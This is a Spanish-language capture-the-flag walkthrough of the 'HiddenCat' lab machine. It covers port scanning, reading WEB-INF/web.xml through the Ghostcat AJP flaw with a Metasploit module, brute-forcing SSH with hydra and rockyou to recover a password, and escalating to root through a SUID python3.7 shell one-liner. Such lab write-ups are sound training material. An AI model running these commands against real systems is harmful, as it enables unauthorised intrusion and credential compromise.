# **Máquina: HiddenCat**

### **Dificultad:** Fácil

### 📝 **Descripción:**

HiddenCat es una máquina diseñada para poner a prueba habilidades básicas de reconocimiento, explotación de servicios vulnerables y escalada de privilegios. Utiliza tecnologías comunes como Apache Tomcat y está basada en Linux.

### 🎯 **Objetivo:**

Obtener acceso inicial a través de un servicio vulnerable y escalar privilegios hasta obtener acceso como root.



---

## 🖥️ **Despliegue de la máquina**

Descargamos el archivo `hiddencat.zip`, lo descomprimimos y desplegamos la máquina usando el script `auto_deploy.sh` proporcionado. Esto inicia la máquina vulnerable dentro de un contenedor Docker:

```bash
unzip hiddencat.zip
sudo bash auto_deploy.sh hiddencat.tar
```



---

## 📡 **Comprobación de conectividad**

Verificamos la conexión con un simple `ping` a la IP asignada (172.17.0.3):

```bash
ping -c1 172.17.0.3
```



---

## 🔍 **Escaneo de puertos**

Ejecutamos un escaneo de puertos completo con `nmap`:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.3 -oG allPorts.txt
```

Puertos descubiertos:

* **22/tcp** – SSH
* **8009/tcp** – AJP13
* **8080/tcp** – HTTP (Apache Tomcat)



Posteriormente, realizamos un escaneo más detallado sobre los puertos encontrados:

```bash
nmap -sCV -p22,8009,8080 172.17.0.3 -oN target.txt
```



---

## 🌐 **Reconocimiento del servicio web**

Accedemos al servicio en el puerto 8080 (`http://172.17.0.3:8080/`) y observamos que se trata de un servidor **Apache Tomcat/9.0.30**.

Intentamos buscar vulnerabilidades en `searchsploit`, pero ninguna parecía aplicable. Sin embargo, investigando en línea encontramos la vulnerabilidad **Ghostcat (CVE-2020-1938)**, que afecta el conector AJP (puerto 8009).

Referencia: [Exploit-DB 49039](https://www.exploit-db.com/exploits/49039)




---

## 🧰 **Explotación de Ghostcat con Metasploit**

Para explotar Ghostcat, copiamos el código del exploit y lo colocamos en la ruta personalizada de Metasploit:

```bash
mkdir -p ~/.msf4/modules/auxiliary/scanner/http/
nano ~/.msf4/modules/auxiliary/scanner/http/ghostcat.rb
```

Luego, iniciamos `msfconsole`, recargamos los módulos y ejecutamos el exploit:

```bash
msfconsole
reload_all
use auxiliary/scanner/http/ghostcat
```

Configuramos las siguientes opciones:

```
set RHOSTS 172.17.0.3
set RPORT 8009
set FILEPATH WEB-INF/web.xml
run
```



La explotación fue exitosa y se obtuvo el archivo `WEB-INF/web.xml`, donde encontramos un usuario potencial: **jerry**.



> 🔎 **Nota**:
> El parámetro `FILEPATH` especifica el archivo que se desea leer en el servidor remoto. Aprovecha el conector AJP mal configurado (en el puerto 8009), permitiendo leer archivos sensibles fuera del contexto HTTP normal.

---

## 🔐 **Fuerza bruta SSH**

Con el usuario `jerry` identificado, usamos `hydra` para realizar un ataque de fuerza bruta al servicio SSH (puerto 22):

```bash
hydra -l jerry -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.3 -t 4
```

Credenciales obtenidas:

* **Usuario:** jerry
* **Contraseña:** chocolate

Con estas credenciales, accedemos exitosamente por SSH:

```bash
ssh jerry@172.17.0.3
```



---

## 🧗 **Escalada de privilegios**

Dentro del sistema, buscamos archivos con el bit SUID activo:

```bash
find / -perm -4000 2>/dev/null
```

Descubrimos que `python3.7` tiene el bit SUID, lo que permite ejecutar código con privilegios elevados.

Ejecutamos el siguiente comando para obtener una shell como root:

```bash
/usr/bin/./python3.7 -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

Verificamos con `whoami` y confirmamos el acceso como **root**.



---

✅ **Resumen de escalada:**

Se identificó `python3.7` con permisos SUID, lo que permitió ejecutar código como root. Al invocar una shell con privilegios usando Python, se logró acceso como usuario root y se completó la escalada de privilegios.

---
